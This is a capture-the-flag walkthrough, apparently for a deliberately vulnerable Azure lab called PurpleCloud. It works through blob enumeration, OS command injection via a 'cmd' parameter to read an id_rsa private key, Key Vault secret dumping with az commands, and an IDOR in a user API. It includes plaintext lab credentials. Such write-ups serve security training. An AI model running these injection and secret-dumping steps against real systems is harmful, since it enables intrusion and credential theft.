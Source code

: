 # PurpleCloud Offensive Manual

## Challenge 1: Blob Hunt 
* Entry Point is the PurpleWiki static web application:

![](https://i.imgur.com/ztYAkZP.png)

* Look at the page source code and realize that the images that are present in some of the wiki entries are included via an external link:
```https://purpleconfidential.blob.core.windows.net/webcontent/databreach_image.png```

![](https://i.imgur.com/1adty2B.png)
* This indicates, that the image is included from a custom Azure Blob Storage resource.
* Try to enumerate the storage by appending ```/restype=container&comp=list``` to the container link:
```https://purpleconfidential.blob.core.windows.net/webcontent/restype=container&comp=list```
* The request returns an XML file as response which provides a listing of the container contents:

![](https://i.imgur.com/02AF02G.png)

* Note that the container is set to anonymous read access which means you can read all the files by visiting the according URL.
* Read ```/webcontent/chat.txt``` to get the following hints:
    * The name of an API endpoint can be found in a log file on a virtual machine (VM) - needed in challenge 4
    * It is possible to access a Key Vault from the VM - needed in challenge 3
* Visit /webcontent/flag/1.txt to get the flag of this challenge.
> PURPLE{PU8L1C_BL08}

## Challenge 2: FindMe.log
* Entry Point is the Purple Blog web application:

![](https://i.imgur.com/aFNpl3P.png)
* Note that the newsletter section includes user input fields:

![](https://i.imgur.com/saZrqEC.png)
* Attempt to cause an error by choosing a birth date that is in the future:

![](https://i.imgur.com/ME9nyzu.png)
* After submitting the form, realize you are getting redirected to the following page:
```/api/process.php?```
* Attempt to exploit a simple OS command injection by appending the following to the URL and notice that it works: 
```process.php?cmd=whoami```
* Execute a ```ls``` command to access the local filesystem of the Azure VM Resource and look at the content of the localadmin home directory: 
```cmd=ls%20../../../../home/localadmin/```
* Note there is a file ```id_rsa``` and a directory ```log```.
* Look at the contents of the ```log``` directory:
```cmd=ls%20../../../../home/localadmin/log```
* Recognize there is a file ```api.log``` in the directory and read it:
```cmd=cat%20../../../../home/localadmin/log/api.log```
* find the name of the API endpoint and an example for an API request in the log file
* Now go back to the home directory and read the ```id_rsa``` file:
```cmd=cat%20../../../../home/localadmin/id_rsa```
* Notice that this is a private key file and save the contents from the page source code (to keep the proper format) as a .pem file.
* After retrieving the name of the API endpoint and the private key file you solved this challenge. 

## Challenge 3: What is the key to the vault?
* Get the IP of the VM (e.g. on windows use ```nslookup.exe purpleblog.westeurope.cloudapp.azure.com```):
```
Name:    purpleblog.westeurope.cloudapp.azure.com
Address:  52.233.176.34
```
* Connect to the VM via SSH as **localadmin** and authenticate using the private key file from the previous challenge (you can either use a commandline or tools like Putty).
* Note that there is an Azure Managed Identity configured allowing you to access a Key Vault from the VM.
* Start with getting the name of the Key Vault by enumerating all Key Vaults in the environment:
```az keyvault list```

![](https://i.imgur.com/jaU7Mks.png)
* After obtaining the name of the Key Vault you can start to enumerate the secrets stored in the resource by using the following command: 
```az keyvault secret list --vault-name purple-secrets```

![](https://i.imgur.com/Dpe44B7.png)

* In the output you can see that in the Key Vault there are two secrets stored, namely **user** and **credential**.
* Now that you have obtained the names of the secrets, you can use them to read the contents with the following commands:
   
```az keyvault secret show --vault-name purple-secrets -n user```

```az keyvault secret show --vault-name purple-secrets -n credential```

![](https://i.imgur.com/c8PrAc7.png)

![](https://i.imgur.com/kAbAikS.png)

* From the output you can retrieve the value of the secrets in plaintext which are:
    * Value of secret **user**: servicepurplecloud@cloudexec.onmicrosoft.com
    * Value of secret **credential**: PurpleCloudDragon123
* You got yourself plaintext credentials for the PurpleCloud service account
* Use these credentials to login to the Azure portal:

![](https://i.imgur.com/g2T1jR4.png)
* Once logged in, navigate to 'All resources'.

![](https://i.imgur.com/r3tk6Vo.png)
* Note that the only resource to which the service account has access to is an Azure Cosmos DB account with the name **purple-db**.

![](https://i.imgur.com/7O3aei5.png)
* Click on the resource to access the properties and navigate to the **Data Explorer**.
* Open the **PurpleDB** database.
* Open the **ServiceData** container.
* Open Items and note there is one item with the /type **flag**.
* After selecting this item to open it, you can find the flag for this challenge in the **value** field.

![](https://i.imgur.com/4rj2yVI.png)

> PURPLE{K3Y_T0_UN1V3R53}


## Challenge 4: Fetch the Flag (API Edition)
* The entry point for this challenge is the API endpoint accessible via https://purplecloud-api.azurewebsites.net/api/user (the name of the endpoint is the first flag vom challenge 2. Additionally, the paramter **id** should have been retrieved from the log file in challenge 2)
* Note that you can't access some of the existing profiles (e.g. request ```/api/user?id=1```):

![](https://i.imgur.com/XWUGiJh.png)
* Some other requests return a valid response (e.g. request ```/api/user?id=3```):

![](https://i.imgur.com/YmNXlyi.png)
* Attempt to request the user with the ID 8 with the following API request:
```https://purplecloud-api.azurewebsites.net/api/user?id=8```

![](https://i.imgur.com/TiU5fj5.png)
* Recognize the addiontal field **supervisor** in the response.
* Now attempt to request the user with the ID 42 (request ```/api/user?id=42```)and note that this user cannot be found: 

![](https://i.imgur.com/r2l9Pgd.png)
* Take one step back and request the user with the ID 8 (request ```/api/user?id=8```) again.
* Now note that there is an IDOR vulnerability which allows you to switch to any profile by editing the ID in the URL
* Attempt to access the profile of the user with the ID 42 using this approach and find the flag.

![](https://i.imgur.com/LiljMTg.png)

> PURPLE{1NS3CUR3_4P1}
